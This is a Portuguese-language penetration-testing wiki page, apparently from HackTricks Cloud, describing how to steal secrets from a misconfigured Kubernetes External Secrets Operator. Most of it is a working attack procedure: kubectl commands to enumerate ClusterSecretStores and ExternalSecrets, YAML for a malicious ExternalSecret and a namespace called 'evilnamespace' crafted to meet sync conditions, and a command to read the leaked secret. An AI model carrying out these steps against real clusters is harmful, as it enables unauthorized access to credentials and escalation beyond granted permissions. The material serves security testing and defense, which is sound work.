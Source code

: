 # External Secret Operator

**O autor original desta página é** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Esta página fornece algumas dicas sobre como você pode conseguir roubar segredos de um ESO mal configurado ou de uma aplicação que usa ESO para sincronizar seus segredos.

## Aviso Legal

A técnica mostrada abaixo só pode funcionar quando certas circunstâncias são atendidas. Por exemplo, depende dos requisitos necessários para permitir que um segredo seja sincronizado em um namespace que você possui / comprometeu. Você precisa descobrir isso por conta própria.

## Pré-requisitos

1. Um ponto de apoio em um cluster kubernetes / openshift com privilégios de administrador em um namespace
2. Acesso de leitura em pelo menos ExternalSecret a nível de cluster
3. Descubra se há algum rótulo / anotação ou associação a grupo necessária que permita que o ESO sincronize seu segredo. Se você tiver sorte, pode roubar livremente qualquer segredo definido.

### Coletando informações sobre o ClusterSecretStore existente

Assumindo que você tem um usuário que possui direitos suficientes para ler este recurso; comece listando os _**ClusterSecretStores**_ existentes.
```sh
kubectl get ClusterSecretStore
```
### Enumeração de ExternalSecret

Vamos supor que você encontrou um ClusterSecretStore chamado _**mystore**_. Continue enumerando seu externalsecret associado.
```sh
kubectl get externalsecret -A | grep mystore
```
_Este recurso é escopado por namespace, então, a menos que você já saiba qual namespace procurar, adicione a opção -A para procurar em todos os namespaces._

Você deve obter uma lista de externalsecret definidos. Vamos supor que você encontrou um objeto externalsecret chamado _**mysecret**_ definido e usado pelo namespace _**mynamespace**_. Reúna um pouco mais de informações sobre que tipo de segredo ele contém.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Montando as peças

A partir daqui, você pode obter o nome de um ou vários nomes de segredos (como definido no recurso Secret). Você terá uma saída semelhante a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Até agora, temos:

- Nome de um ClusterSecretStore
- Nome de um ExternalSecret
- Nome do segredo

Agora que temos tudo o que precisamos, você pode criar um ExternalSecret (e eventualmente corrigir/criar um novo Namespace para atender aos pré-requisitos necessários para sincronizar seu novo segredo):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Após alguns minutos, se as condições de sincronização forem atendidas, você deverá conseguir visualizar o segredo vazado dentro do seu namespace.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referências

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
